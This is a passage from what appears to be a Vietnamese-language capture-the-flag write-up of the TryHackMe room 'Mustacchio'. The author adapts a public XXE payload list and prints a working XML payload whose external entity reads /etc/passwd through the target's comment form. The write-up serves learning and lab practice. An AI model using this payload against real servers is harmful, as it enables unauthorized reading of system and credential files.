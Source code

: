 ![form-comment](/assets/img/2021-12-31-THM-Mustacchio/4.webp)

Sau 1 lúc tìm kiếm cách khai thác lỗi sử dụng XXE, tôi tìm được payload ở [đây](https://github.com/payloadbox/xxe-injection-payload-list). Sửa đoạn xml mẫu 1 chút, tôi sẽ lấy file từ server và thay comment là 1 câu lệnh để server đọc và in nội dung file ra cho tôi.

```python
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&read;</com>
</comment>
```

![comment](/assets/img/2021-12-31-THM-Mustacchio/5.webp)
